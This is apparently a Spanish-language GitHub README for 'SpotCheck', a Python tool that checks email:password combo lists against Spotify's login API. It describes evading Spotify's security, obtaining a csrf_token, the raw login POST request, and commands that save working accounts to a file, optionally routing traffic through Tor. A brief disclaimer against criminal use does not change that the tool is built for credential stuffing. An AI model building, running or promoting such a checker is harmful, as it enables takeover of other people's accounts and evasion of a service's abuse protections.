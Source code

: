 # SpotCheck v0.1-Beta
  
## ¿Que es SpotCheck?  
SpotCheck es un chequeador  de cuentas escrito en Python. SpotCheck consigue evadir la seguridad de Spotify para conseguir probar cuentas a una velocidad decente.  SpotCheck nació por un reto entre amigos y no debe ser usado para cometer ningún tipo de delito. Si decides cometer un delito con SpotCheck lo haces bajo tu responsabilidad.  
## ¿Como funciona?  
SpotCheck realiza requests a spotify desde la libreria `PySocks` y no usa ningun tipo de libreria externa como podria ser `urllib2` o el conocido `requests`.
`PySocks` es una libreria que usa `socket` como base. Pero `PySocks` da la posibilidad de configurar un proxy para realizar conexiones.    

Ejemplo de una web request con `PySocks` y `ssl`:  
```python
no_ssl_socket = socks.socksocket()
ssl_socket = ssl.wrap_socket(no_ssl_socket, ssl_version=ssl.PROTOCOL_SSLv23)
ssl_socket.connect(('accounts.spotify.com', 443))
ssl_socket.sendall(b'GET / HTTP/1.1\r\nHost: accounts.spotify.com\r\n\r\n')
```    
El funcionamiento interno de SpotCheck es sencillo. Se realiza un *GET* a **accounts.spotify.com** para conseguir la *csrf_token*, la cual nos ayudara a tener acceso a la API de autentificación de Spotify: **accounts.spotify.com/api/login**. La API de autentificación se puede ver en el AJAX de Spotify (Publico).  

Parte de código de Spotify (https://accounts.scdn.co/js/index.5b565fd7cb445ad46542.js):  
```javascript
var o=n({method:"POST",url:"/api/login",data:r,headers:{"Content-Type":"application/x-www-form-urlencoded"},transformRequest:u.objToFormData})
```
  Una vez conseguida la *csrf_token* se realizara un *POST* a la API **accounts.spotify.com/api/login**.
   
   Ejemplo de *POST* a la API:  
 
 ```
POST /api/login HTTP/1.0
Host: accounts.spotify.com
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 8_3 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) FxiOS/1.0 Mobile/12F69 Safari/600.1.4
Accept: application/json, text/plain
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Cookie: fb_continue=https%3A%2F%2Fwww.spotify.com%2Fid%2Faccount%2Foverview%2F; sp_landing=play.spotify.com%2F; sp_landingref=https%3A%2F%2Fwww.google.com%2F; user_eligible=0; spot=%7B%22t%22%3A1498061345%2C%22m%22%3A%22id%22%2C%22p%22%3Anull%7D; sp_t=ac1439ee6195be76711e73dc0f79f894; sp_new=1; csrf_token=<token>; __bon=MHwwfDE1MTEzNzE0OTl8NjM0Nzc2MDI5NTh8MXwxfDF8MQ==; remember=true@true.com; _ga=GA1.2.153026989.1498061376; _gid=GA1.2.740264023.1498061376

remember=true&username=test@test.com&password=thisisatest1234&csrf_token=<token>
 ```
 
 ## Instalación
 
 Lo primero qué se necesita es clonar o descargar el repositorio.
 
 SpotCheck al ser un script en Python es necesario la instalación del mismo. Para ello solo se necesita una busqueda en google.
 
 SpotCheck es compatible con Python 2.7 y Python 3.x.
 Despues de instalar Python es necesario la instalación de varios modulos/paquetes los cuales son `PySocks` y `colorama`. Los cuales se instalan con pip o pip3 con el siguiente comando: 
 
 ```
 pip install <paquete>
 ```
 
 Si eres demasiado vago para instalar dos paquetes se pueden instalar con un solo comando:
 ```
 pip install -r requeriments.txt
 ```
 Este comando se tiene que ejecutar desde la carpeta de SpotCheck.
 
 
 ## Utilización
 
 Ya que SpotCheck es un script automatizado su uso es muy sencillo.
 Los argumentos obligatorios son:
 
 ### combo
 ### output
 
 Estos dos argumentos determinan el fichero donde se tienen listas y emails en formato combo (email:password) y el archivo donde se almacenaran las cuentas que funcionen correctamente.
 
 Argumentos opcionales:
 
 ### --tor
 Si es especifica este argumento en el comando de ejecución de SpotCheck obligara al programa a realizar las peticiones a traves de TOR. (Impacto en el rendimiento)
 
 ### --nothreads
  Si es especifica este argumento en el comando de ejecución de SpotCheck obligara al programa a chequear las cuentas en el proceso principal de SpotCheck (Impacto en el rendimiento)
  
  ## Ejemplo de uso sin TOR
  ```
  python SpotCheck.py combo.txt accounts.txt
  ```
  
  ## Ejemplo de uso con TOR
  ```
  python SpotCheck.py combo.txt accounts.txt --tor
  ```
  
  ## Ejemplo de uso sin threads
   ```
  python SpotCheck.py combo.txt accounts.txt --nothreads
  ```
